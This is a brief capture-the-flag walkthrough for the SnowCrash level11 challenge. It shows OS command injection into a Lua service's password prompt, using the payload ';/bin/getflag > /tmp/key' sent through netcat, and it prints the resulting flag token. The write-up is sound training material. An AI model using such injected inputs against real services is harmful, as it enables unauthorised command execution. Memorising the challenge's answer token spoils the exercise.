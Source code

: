 ### Exploit

Yet another programming language to exploit. This time around let's have a look at what the script does first. We're meant to connect as 127.0.0.1:5151, an address which is already in use. Launch netstat just to make sure...

```
    level11@SnowCrash:~$ netstat -ltnp
    (No info could be read for "-p": geteuid()=2011 but you should be root.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
    tcp6       0      0 :::4646                 :::*                    LISTEN      -
    tcp6       0      0 :::4747                 :::*                    LISTEN      -
    tcp6       0      0 :::80                   :::*                    LISTEN      -
    tcp6       0      0 :::4242                 :::*                    LISTEN      -
```
Through netcat, as we connect to said address, a prompt for a password comes up. We expected to write a password in, which'll be hashed by the function "hash". Notice the function calls __io.popen__. Now all we have to do is inject some [os command injection](http://www.syhunt.com/en/index.php?n=Articles.LuaVulnerabilities).

```
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: ;/bin/getflag > /tmp/key
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/key
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
Only a couple more left!
